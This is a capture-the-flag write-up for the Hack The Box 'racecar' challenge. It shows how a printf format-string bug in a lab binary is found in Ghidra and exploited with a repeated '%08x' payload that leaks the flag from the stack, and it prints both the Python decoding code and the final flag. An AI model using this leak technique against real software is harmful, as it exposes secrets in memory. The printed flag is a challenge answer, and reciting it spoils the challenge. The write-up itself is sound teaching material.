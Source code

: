> **Did you know that racecar spelled backwards is racecar?**
> **Well, now that you know everything about racing, win this race and get the flag!**

> Author: **[w3th4nds][author-profile]**

## Fast and failed

### The meta?

Nothing outstanding from `trid`, `binwalk`, `exiftool` and `objdump`.

There's an interesting string though: "flag.txt". The binary is most likely
accessing a local file, which would be our target.

### Playing racecar?

The previous hypothesis can be confirmed by running the binary: it crashes
when the file "flag.txt" is not present in its parent folder. Let's create
a bogus flag with "heyhey seth here" inside.

Now the binary prompts for name, nickname, car and circuit.
The combination "fast car + highway circuit" seems to win everytime.

There's a last prompt after the victory: the user input is simply echoed.

```
[!] Do you have anything to say to the press after your big victory?
> iii

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
iii
```

### Overflowing?

Reflex: try and overflow

## Static analysis

Look for "flag.txt" in Ghidra:

There are 2 references:


```c
__stream = fopen("flag.txt","r");
if (__stream == (FILE *)0x0) {
  printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                /* WARNING: Subroutine does not return */
  exit(0x69);
}
fgets(local_3c,0x2c,__stream);
read(0,__format,0x170);
puts(
    "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
    );
printf(__format);
```

On the last line, we want to print the content of `local_3c` instead of the
input saved in `__format`.

Break on input with 'ctrl + c'

Display next 30 instructions: 

Retrieve the address of the local variable `local_3c` containing the flag.

After the fgets call, EAX contains the address of the flag string.

The buffer is 171 bytes long
Crash the binary:
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii

## Reading the stack

The arguments accessed by printf are inferred from the format string. For example:

```c
"%08x %p"
```

Will print the first 8 nibbles on the stack and then interpret the next word as
a `void *` pointer.

With "%08x %08x %08x %08x", the binary will respond with the first 4 words on
the stack. Hence, we can read the stack frame: this is the "format string attack". 

The target is the content of the flag file: "heyhey seth here". The corresponding
bytes are:

```
0x68 Ox65 0x79 0x68 ...
```

With a large enough format string, we should see those bytes appear in the echo.

```
%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x ... %08x
```

Returns:

```
0x5655a1c0 ... 0x68796568 0x73207965 ...
```

The finish is in sight!

## Reordering

The description "racecar spelled backwards is racecar" actually refers to endianness.

Indeed there's a twist: `0x68796568` reads "hyeh". In other word, the order is inverted.

This can be easily reversed, word by word:

```python
def decode(word: str) -> str:
    # start at 2 to ignore the "0x"
    return "".join([chr(int(word[i:i+2], 16)) for i in range(2, 10, 2)][::-1])
```

And, iterating on the whole memory dump:

```python
"".join([decode(w) for w in BYTES.split(" ")])
```

> HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}

[author-profile]: https://app.hackthebox.eu/users/70668

